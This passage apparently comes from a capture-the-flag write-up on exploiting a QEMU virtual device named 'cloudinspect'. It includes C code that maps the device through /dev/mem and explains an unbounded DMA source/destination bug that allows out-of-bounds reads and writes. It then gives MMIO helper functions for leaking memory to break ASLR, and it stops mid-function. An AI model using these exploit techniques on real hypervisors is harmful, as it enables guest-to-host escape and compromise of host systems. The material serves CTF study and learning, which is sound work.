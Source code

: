 ```c
void unmap_device(volatile void* mem) {
	munmap((void*)mem, MAP_SIZE);
}

int main() {
	int fd;
	volatile void* mem;
	u64 magic;

	fd = open("/dev/mem", O_RDWR | O_SYNC);
	if (fd < 0)
		err(EXIT_FAILURE, "open");
	mem = map_device(fd);

	magic = read_magic(mem);
	assert(magic == 0xc10dc10dc10dc10d);

	unmap_device(mem);
	close(fd);
	return EXIT_SUCCESS;
}
```

Now that we can interact with the device, it is time to exploit it.

## Exploitation ##

The bug is clear: `cloudinspect->dma.cnt` is bounded to a maximum of 4096, but `cloudinspect->dma.dst` and `cloudinspect->dma.src` are not. This means we can read and write to any location we want outside of `cloudinspect->dma_buf` when using `dma_memory_read` and `dma_memory_write`.

Our first goal is to obtain a memory leak in order to break ASLR. We took the simplest approach: we started printing blocks of 8 bytes, starting at `cloudinspect->dma_buf + 4096`:

```c
u64 virt2phys(volatile void* p) {
	/* https://github.com/kitctf/writeups/blob/2af257868242fafef4a204349d22227b62d9b8bb/hitb-gsec-2017/babyqemu/pwn.c#L35 */
}

void write_dst(volatile void* mem, u64 dst) {
	*(u64*)((uintptr_t)mem + CLOUDINSPECT_MMIO_OFFSET_DST) = dst;
}

void write_src(volatile void* mem, u64 src) {
	*(u64*)((uintptr_t)mem + CLOUDINSPECT_MMIO_OFFSET_SRC) = src;
}

void write_cmd(volatile void* mem, u64 cmd) {
	*(u64*)((uintptr_t)mem + CLOUDINSPECT_MMIO_OFFSET_CMD) = cmd;
}

void write_cnt(volatile void* mem, u64 cnt) {
	*(u64*)((uintptr_t)mem + CLOUDINSPECT_MMIO_OFFSET_CNT) = cnt;
}

u64 read_trigger(volatile void* mem) {
	u64 out;

	write_cmd(mem, CLOUDINSPECT_DMA_GET_VALUE);
	out = *(u64*)((uintptr_t)mem + CLOUDINSPECT_MMIO_OFFSET_TRIGGER);
	if (!out)
		warnx("read_trigger");
	return out;
```